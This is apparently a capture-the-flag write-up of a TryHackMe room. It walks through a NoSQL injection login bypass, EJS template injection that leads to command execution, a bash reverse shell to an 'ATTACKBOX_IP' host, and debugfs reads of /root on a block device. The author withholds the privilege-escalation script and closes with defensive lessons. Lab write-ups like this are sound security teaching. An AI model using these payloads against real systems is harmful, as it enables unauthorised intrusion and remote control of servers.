








# Day 07: Do Not Disturb - TryHackMe Hacker Holidays Write-up

<p align="center">
  
  
  
</p>

---

## 📝 Objective

The objective of the **Do Not Disturb** room is to exploit a web application with NoSQL injection and template injection vulnerabilities to gain an initial foothold, escalate privileges via a Node.js inspector misconfiguration, and completely compromise the server (Boot2Root).

---

## 🔍 Reconnaissance & Enumeration

* **Initial Discovery:** Navigating to the target machine's IP address presented a standard login page. Initial attempts to bypass authentication using classic SQL Injection payloads failed.
* **Intercepting Traffic:** Routing the web traffic through **Burp Suite** allowed me to inspect the backend responses. The error responses provided hints indicating the use of a NoSQL database backend.

<p align="center">
  
</p>

---

## 🚪 Initial Access / Exploitation (User)

**NoSQL Injection Bypass:** Recognizing the NoSQL backend behavior, I modified the login request body to leverage a NoSQL operator query bypass instead of traditional SQL syntax:
* **Original Attempt:** `username=attendant&password=' OR '1' = '1`
* **NoSQL Payload:** `username=attendant&password[$ne]=x`

This successfully bypassed authentication and granted me access to the Cabana desk staff console.

<p align="center">
  
</p>

**Identifying Template Injection:** Inside the staff console, I found an input field rendered via **EJS (Embedded JavaScript)**. Testing it with a simple arithmetic payload returned `49`, confirming that code execution was possible inside the template blocks.

<p align="center">
  
</p>

**Verifying Command Execution:** To confirm system command execution, I asked Gemini for an EJS payload to find internal module details, then used the provided payload:
```ejs
<%= global.process.mainModule.require('child_process').execSync('id') %>
```
<p align="center">
  
</p>

<p align="center">
  
</p>

**Getting a Reverse Shell:** I started a Netcat listener in my terminal and injected the standard EJS RCE reverse shell payload into the browser console:
```ejs
<%= global.process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/ATTACKBOX_IP/4321 0>&1"') %>
```
The server connected back, granting me a reverse shell.

<p align="center">
  
</p>

After navigating through the poolside terminal, I located and read the user flag.

<p align="center">
  
</p>

---

## 👑 Privilege Escalation (Root)

**System Enumeration:** Privilege escalation proved to be the most challenging part of the room. After navigating to `/tmp` and reviewing running processes (`ps aux`), I identified a misconfigured Node.js process running with debugging flags enabled.

**Exploiting the Inspector:** 

> ⚠️ **Note:** *The specific exploit payload script has been intentionally omitted from this public writeup to prevent misuse.*

Using the Node.js inspector service, I ran a custom local script (`exploit.js`) configured against my attack infrastructure. This successfully upgraded my context to the `pipelinesvc` user.

**Extracting the Root Flag:** Storage and system enumeration (`lsblk`) pointed to `/dev/nvme0n1p1`. Leveraging the `debugfs` utility, I inspected the block device directly without needing a root shell:
```bash
ls -ls /dev/nvme0n1p1
debugfs -R "ls /root" /dev/nvme0n1p1
debugfs -R "cat /root/root.txt" /dev/nvme0n1p1
```
This output the root flag successfully from the `pipelinesvc` terminal.

<p align="center">
  
</p>

---

## 🚩 Flags

* **User Flag:** `THM{REDACTED}`
* **Root Flag:** `THM{REDACTED}`

---

## 💡 Key Takeaways

* **NoSQL Injection:** Traditional input sanitization built for SQL databases often fails against NoSQL operators (like `$ne`). Applications must explicitly validate input types and structure rather than passing raw request objects directly into database queries.
* **Template Injection (EJS):** Unsanitized template evaluation allows users to invoke core modules (`child_process`), leading directly to Remote Code Execution.
* **Node.js Inspector Security:** Leaving debugging ports or inspector flags enabled in production environments allows local users or processes to interact with the runtime and escalate privileges.
